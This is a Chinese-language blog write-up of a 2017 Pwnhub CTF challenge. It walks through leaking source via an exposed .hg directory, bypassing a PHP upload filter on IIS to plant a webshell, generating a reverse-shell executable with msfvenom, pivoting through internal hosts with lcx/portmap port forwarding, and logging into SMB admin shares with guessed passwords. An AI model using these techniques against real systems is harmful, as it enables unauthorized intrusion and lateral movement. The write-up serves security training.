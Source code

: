 title: Pwnhub之深入敌后writeup
date: 2017-01-17 20:06:59
tags: CTF
categories: H-blog
---

好艰难的一趟旅程

<!--more-->

![pwnhub1](http://qn.lazysheep.cc/img/pwnhub1.png)

网站看看没啥发现, 端口扫扫也没啥发现

然后用猪猪侠的[dirfuzz](https://github.com/ring04h/dirfuzz) 扫描路径, 可以扫到有`file/.hg`路径, 然后用<https://github.com/kost/dvcs-ripper> 可以搞到源码

![pwnhub2](http://qn.lazysheep.cc/img/pwnhub2.png)

接下来就是代码审计一波

漏洞点在`uploader.php`
```
<?php
	session_start();
	 
	// Get the filename and make sure it is valid
	$filename = basename($_FILES['file']['name']);

	 
	// Get the username and make sure it is valid
	$username = $_SESSION['userName'];
	if (!preg_match('/^[\w_\-]+$/', $username) ){
		echo "Invalid username";
		header("Refresh: 2; url=files.php");
		exit;
	}
	 
	if(isset($_POST['submit'])){
		$filename =md5(uniqid(rand()));
		$filename = preg_replace("/[^\w]/i", "", $filename);
		$upfile = $_FILES['file']['name'];
		$upfile = str_replace(';',"",$upfile);
		$tempfile = $_FILES['file']['tmp_name'];
		$ext = trim(get_extension($upfile)); // null
		if(in_array($ext,array('php','php3','php5','php7','phtml'))){
			die('Warning ! File type error..');
		}
		if($ext == 'asp' or $ext == 'asa' or $ext == 'cer' or $ext == 'cdx' or $ext == 'aspx' or $ext == 'htaccess') $ext = 'file';

		$full_path = sprintf("./users_file_system/%s/%s.%s", $username, $filename,$ext);

	}


	
	if (move_uploaded_file($_FILES['file']['tmp_name'], $full_path) ){
		header("Location: files.php");
		exit;
	} else {
		header("Location: upload_failure.php");
		

		exit;
	}
 	function get_extension($file){
		return strtolower(substr($file, strrpos($file, '.')+1));
	}
?>
```

初看好像写的没问题, 但是之前随便看看站点的时候就发现了这是一个Windows server + IIS的站点

然后这个上传漏洞以前遇到过, 还写过wp

<http://old.lazysheep.cc/2015/05/19/0x24/>

然后通过Fuzz也可以bypass这个上传过滤, `aklis.php%fe`也可以成功上传php文件

![pwnhub3](http://qn.lazysheep.cc/img/pwnhub3.png)

得到webshell以后, 用msf生成了个反弹shell的exe(aklis.exe)

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=xxxx LPORT=6666 -f exe -o /tmp/reverse.exe
```

![pwnhub4](http://qn.lazysheep.cc/img/pwnhub4.png)

找个内网的ip: `172.31.5.95`, 通过xshell对该目标进行ssh连接, 用户是ubuntu

之后用的是`dlive`里的`lcx.exe`进行端口转发, 参考: 

<http://wps2015.org/drops/drops/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E4%B8%AD%E8%BD%AC%E5%8F%91%E5%B7%A5%E5%85%B7%E6%80%BB%E7%BB%93.html>

windows的命令:
```
C:\inetpub\wwwroot\file\users_file_system\dlive\> lcx.exe -slave xxx 10000 172.31.5.95 22
```

我的xxx机子的命令:
```
$ ./portmap -m 2 -p1 10000 -p2 12345
```

`portmap`是linux下的lcx, 下载地址:<http://www.vuln.cn/2791>

然后就是通过ssh进行连接了
```
$ ssh ubuntu@xxx -p12345
password: abc@elk
```

密码从提示里知道的:
![pwnhub5](http://qn.lazysheep.cc/img/pwnhub5.png)

在根目录下发现了flag, 本以为做出来了, 然后得知是假的, 简直奔溃......

该ubuntu服务器, ubuntu用户可以sudo, 有root权限, 不过不能访问外面, 想装工具也不方便...

然后在`/home/ubuntu/.bash_history`里找到了又一个内网ip: `172.31.13.133`

在`.bash_history`里也可以发现, `172.31.13.133`开了`135, 139, 445`三个端口

![pwnhub6](http://qn.lazysheep.cc/img/pwnhub6.png)

然后就进行了一系列的找相关漏洞, 把相应端口转发出来用msf测试, 未果....

然后找到[$IPC相关命令](http://www.360doc.com/content/10/0211/10/551936_15658003.shtml)

在windows机子上使用命令:

```
C:\inetpub\wwwroot\file\users_file_system\aklis>net use \\172.31.13.133\ipc$ "" /user:""
net use \\172.31.13.133\ipc$ "" /user:""
The command completed successfully.

C:\inetpub\wwwroot\file\users_file_system\aklis>net view \\172.31.13.133
net view \\172.31.13.133
System error 5 has occurred.

Access is denied.
```

但是没用, 尝试登陆.....
```
C:\inetpub\wwwroot\file\users_file_system\aklis>net use \\172.31.13.133\ipc$ "abc@ELK" /user:"Administrator"
net use \\172.31.13.133\ipc$ "abc@ELK" /user:"Administrator"
The command completed successfully.
```

登陆成功.....

密码是怎么得到的?

根据提示:
```
2017.01.15 11:50:00administrator：啊，好烦啊，需要设置那么多密码，偷懒好了，妈蛋，windows为啥还有密码策略。
```

然后查了下windows的密码策略
```
长度至少为 6 个字元
包含下列四种字元中的三种:
英文大写字元 (A 到 Z)
英文小写字元 (a 到 z)
10 进位数字 (0 到 9)
非英文字母字元 (例如: !、$、#、%)
建立或变更密码时会強制执行复杂 性需求
```

然后一猜就猜到了.....

之后是
```
C:\inetpub\wwwroot\file\users_file_system\aklis>net use d: \\172.31.13.133\c$ "abc@ELK" /user:"Administrator"
net use d: \\172.31.13.133\c$ "abc@ELK" /user:"Administrator"
The command completed successfully.
```

然后是进入`D:`, 找flag, 但是没找到, 然后得知flag就是在该机子中, 然后搜了一波windows下的搜索文件命令:
```
D:\>for /r D: %i in (*flag*) do @echo %i
for /r D: %i in (*flag*) do @echo %i
D:\Program Files (x86)\MSBuild\Microsoft\Windows Workflow Foundation\v3.5\flag.txt
D:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\flag.lnk
```

好了....找到flag了
```
D:\>cd "Program Files (x86)\MSBuild\Microsoft\Windows Workflow Foundation\v3.5"
cd "Program Files (x86)\MSBuild\Microsoft\Windows Workflow Foundation\v3.5"

D:\Program Files (x86)\MSBuild\Microsoft\Windows Workflow Foundation\v3.5>dir
dir
 Volume in drive D has no label.
 Volume Serial Number is B2D4-D0F2

 Directory of D:\Program Files (x86)\MSBuild\Microsoft\Windows Workflow Foundation\v3.5

12/12/2016  02:26    <DIR>          .
12/12/2016  02:26    <DIR>          ..
12/01/2017  08:35                31 flag.txt
10/06/2009  21:14             7,169 Workflow.Targets
10/06/2009  21:14             8,680 Workflow.VisualBasic.Targets
               3 File(s)         15,880 bytes
               2 Dir(s)   2,673,094,656 bytes free

D:\Program Files (x86)\MSBuild\Microsoft\Windows Workflow Foundation\v3.5>type flag.txt
type flag.txt
pwnhub{flag:y0u f0und my h3art}
```








